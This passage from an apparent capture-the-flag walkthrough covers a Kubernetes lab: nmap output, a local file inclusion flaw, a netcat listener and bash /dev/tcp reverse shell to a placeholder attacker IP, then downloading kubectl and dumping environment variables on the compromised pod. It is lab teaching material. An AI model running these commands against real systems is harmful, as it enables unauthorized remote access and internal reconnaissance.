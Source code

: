 ```bash
|     Content-Length: 18
|     Allow: GET, HEAD
|     Connection: close
|_    Method Not Allowed
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 572.71 seconds
```

From the scan we can see that 2 ports are open SSH and Web. By visiting the web page we can see that there is a text field that is vulnerable to Local File Inclusion(LFI).

![LFI](https://bn1304files.storage.live.com/y4mAjC-FSwN73Osczp3_-47n_4lv7br_KMALr8ItXdksJ_-j9F5xUd5W3aj80aU6-IcU4op6v0JJARpTFUW0uXM_VOrKZK-GmMXLqt7tMTdS4VKzQDq6xayyP6NGsLyBzvpF-vlwqAl7w7c5dBQvg8MQvcRK5TeDTfd6vOR7S8XM69_e9Fx_MlKHB7NoT9iJUcY?width=2858&height=712&cropmode=none)

From here we can get a reverse shell using <https://revshells.com>. On your attack machine

```bash
nc -lvnp 4444
```

On the target host

```bash
sh -i >& /dev/tcp/[attackmachineip]/4444 0>&1
```

### Interacting with kubernetes

Once you got a reverse shell we can start enumerating by interacting with kubernetes. To do that, we need to download `kubectl` binary in to `/tmp` directory.

```bash
cd /tmp; curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
```

Before going further, do check if there are any important items we should be able to find in environment variables of the web account. ;)

```bash
env
KUBERNETES_SERVICE_PORT_HTTPS=443
GRAFANA_SERVICE_HOST=10.10.151.225
KUBERNETES_SERVICE_PORT=443
HOSTNAME=syringe-79b66d66d7-7mxhd
SYRINGE_PORT=tcp://10.99.16.179:3000
GRAFANA_PORT=tcp://10.10.151.225:3000
SYRINGE_SERVICE_HOST=10.99.16.179
SYRINGE_PORT_3000_TCP=tcp://10.99.16.179:3000
GRAFANA_PORT_3000_TCP=tcp://10.10.151.225:3000
PWD=/home/challenge
SYRINGE_PORT_3000_TCP_PROTO=tcp
HOME=/home/challenge
KUBERNETES_PORT_443_TCP=tcp://10.96.0.1:443
GOLANG_VERSION=1.15.7
FLAG=flag{Redacted}
SHLVL=1
SYRINGE_PORT_3000_TCP_PORT=3000
GRAFANA_PORT_3000_TCP_PORT=3000
KUBERNETES_PORT_443_TCP_PROTO=tcp
KUBERNETES_PORT_443_TCP_ADDR=10.96.0.1
GRAFANA_SERVICE_PORT=3000
SYRINGE_PORT_3000_TCP_ADDR=10.99.16.179
SYRINGE_SERVICE_PORT=3000
KUBERNETES_SERVICE_HOST=10.96.0.1
```